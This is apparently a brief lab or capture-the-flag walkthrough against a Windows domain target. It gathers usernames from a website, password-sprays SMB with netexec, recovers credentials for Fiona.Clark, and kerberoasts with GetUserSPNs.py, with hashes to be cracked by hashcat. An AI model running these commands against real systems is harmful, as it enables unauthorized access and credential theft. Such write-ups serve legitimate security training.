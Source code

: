 We can find the website and it has a list of team members:
![](attachment/9904cad169df9dd0cc19f8a2c7244a7d.png)

Now we can add this to a users.txt and bruteforce for passwords:
![](attachment/29ac41599cedbcb170997fbdeb83c43b.png)
```
nxc smb 192.168.182.21 -u users.txt -p /usr/share/seclists/Passwords/common_corporate_passwords.lst
```
Now we get the password.![](attachment/e7d90b127bbeb43a3101adc9ba3df073.png)

Now kerberoasting:
```
GetUserSPNs.py nagoya-industries.com/Fiona.Clark:Summer2023 -request
```
![](attachment/1b35220fe078063b6a54d2dc16b3ab93.png)
We can crack it with hashcat![](attachment/dcaad0d97f23e5d4c00ffcb2a72b3ebc.png)
